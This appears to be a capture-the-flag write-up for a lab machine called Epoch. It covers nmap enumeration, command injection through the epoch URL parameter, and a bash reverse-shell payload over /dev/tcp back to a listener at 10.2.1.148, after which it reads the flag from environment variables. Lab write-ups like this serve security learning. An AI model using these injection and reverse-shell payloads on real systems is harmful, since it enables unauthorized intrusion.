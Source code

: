 **Target: 10.10.19.222 	Epoch**

**Initial Access:**\
nmap -Pn  10.10.19.222  --min-rate=5000 -p-\
Output from nmap shows open ports 22,80

Enumerating open ports further with nmap:\
nmap -Pn 10.10.19.222  --min-rate=5000 -p 22,80 -sC -sV -oN nmap.epoch

![image](https://user-images.githubusercontent.com/93153300/198738065-a99e4244-85de-43b5-9bd4-e1f6ffc950d4.png)
 
Navigating to port 80 shows:

![image](https://user-images.githubusercontent.com/93153300/198738126-f1258038-61f3-4d1d-a76c-76cfa34f777e.png)
 
Let’s test the converter.  Put a random word in:

![image](https://user-images.githubusercontent.com/93153300/198738176-59b4db1d-70e0-473a-b704-a3aced5d3dd7.png)
 
We see in the url that we are taken to a directory /?epoch=\

Testing for command injection let’s try:   blob;id;
Found command injection, the command id ran:

![image](https://user-images.githubusercontent.com/93153300/198738230-92e20d5b-4882-4560-9602-01fbfe92a571.png)
 
Let’s use this to get a reverse shell.  First, open a netcat listener: nc -lvnp 443 (I will use pwncat: pwncat-cs -lp 443).  Next, replace blob;id with: blob;bash -c 'bash -i >& /dev/tcp/10.2.1.148/443 0>&1'\
We got shell as challenge:

![image](https://user-images.githubusercontent.com/93153300/198738276-4a3062e7-51c9-466a-8fec-41b536fc5314.png)
_____________________________________________________________
Upon checking environment variables we find the flag:

![image](https://user-images.githubusercontent.com/93153300/198738301-c47df8d5-9797-453f-82ff-b3984c3b6021.png)
 

This machine only had one flag, and was not made for privilege escalation to get root.
